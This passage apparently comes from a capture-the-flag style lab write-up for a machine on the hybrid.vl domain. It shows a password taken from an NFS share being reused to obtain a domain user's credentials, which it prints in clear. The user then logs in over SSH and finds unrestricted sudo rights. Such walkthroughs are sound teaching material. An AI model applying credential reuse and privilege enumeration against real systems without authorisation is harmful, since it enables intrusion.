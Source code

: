 

Since john couldn’t seem to find a password I decided to use the password that we found on the NFS share: `PeterIstToll!`, we end up finding peter.turner’s domain credentials.
![Pasted image 20240713194507.png](/images/Pasted image 20240713194507.png){: .normal width="450"}
```
peter.turner:b0cwR+G4Dzl_rw
```


SSH as the peter.turner user.
```
┌──(kali㉿kali)-[~]
└─$ ssh peter.turner@hybrid.vl@10.10.245.86  
(peter.turner@hybrid.vl@10.10.245.86) Password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-75-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/advantage>

  System information as of Wed Jan 31 05:52:56 PM UTC 2024

  System load:  0.0029296875      Processes:             143
  Usage of /:   65.0% of 6.06GB   Users logged in:       0
  Memory usage: 32%               IPv4 address for ens5: 10.10.245.86
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   <https://ubuntu.com/engage/secure-kubernetes-at-the-edge>

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

3 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at <https://ubuntu.com/esm>

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sun Jul 30 08:53:36 2023 from 10.10.1.254
peter.turner@hybrid.vl@mail01:~$ id
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```


Looks like we can run any command as any user.
```
peter.turner@hybrid.vl@mail01:~$ sudo -l
[sudo] password for peter.turner@hybrid.vl: 
Matching Defaults entries for peter.turner@hybrid.vl on mail01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User peter.turner@hybrid.vl may run the following commands on mail01:
    (ALL) ALL
```
